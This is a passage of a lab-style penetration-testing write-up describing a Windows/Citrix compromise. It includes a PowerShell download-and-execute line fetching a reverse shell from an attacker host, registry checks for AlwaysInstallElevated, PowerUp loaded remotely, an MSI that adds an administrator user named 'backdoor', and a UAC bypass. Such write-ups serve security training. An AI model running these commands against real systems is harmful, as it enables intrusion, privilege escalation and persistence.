 To bypass this restriction, I created a Notepad file containing a UNC path for PowerShell, saved it as a **.bat** file, and executed it, successfully opening a shell.
![](https://photos.squarezero.dev/file/abir-images/xen/14.png)
![](https://photos.squarezero.dev/file/abir-images/xen/15.png)

## Always Install Elevated
To obtain a more stable shell, I executed a reverse shell script in memory.
`IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/shell.ps1')`
![](https://photos.squarezero.dev/file/abir-images/xen/16.png)

During enumeration, I found that the AlwaysInstallElevated policy was enabled. This allows low-privileged users to install MSI packages with SYSTEM privileges, enabling easy privilege escalation.

```PowerShell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
![](https://photos.squarezero.dev/file/abir-images/xen/17.png)

I confirmed this with PowerUp.
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/PowerUp.ps1')
Invoke-AllChecks
```
![](https://photos.squarezero.dev/file/abir-images/xen/18.png)

Using PowerUp's Write-UserAddMSI function, I generated an MSI file to create a new user with administrative privileges.
![](https://photos.squarezero.dev/file/abir-images/xen/19.png)

Then, I used **runas** to open a command prompt as the elevated user.
`runas /u:backdoor cmd`
![](https://photos.squarezero.dev/file/abir-images/xen/20.png)

## UAC Bypass
After obtaining a reverse shell as the elevated user, I checked the permission level and found that the session was running at Medium Mandatory Level, meaning UAC was restricting full privileges.
![](https://photos.squarezero.dev/file/abir-images/xen/21.png)

I bypassed UAC using [FuzzSecurity's](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) UAC bypass method, gaining a high-integrity administrative shell. 
![](https://photos.squarezero.dev/file/abir-images/xen/22.png)

After that, I retrieved the flag from the Administrator's Desktop.
![](https://photos.squarezero.dev/file/abir-images/xen/23.png)

# Ghost
## Pivot
After compromising the Citrix machine, it was time to move into the internal network. 
![](https://photos.squarezero.dev/file/abir-images/xen/24.png)
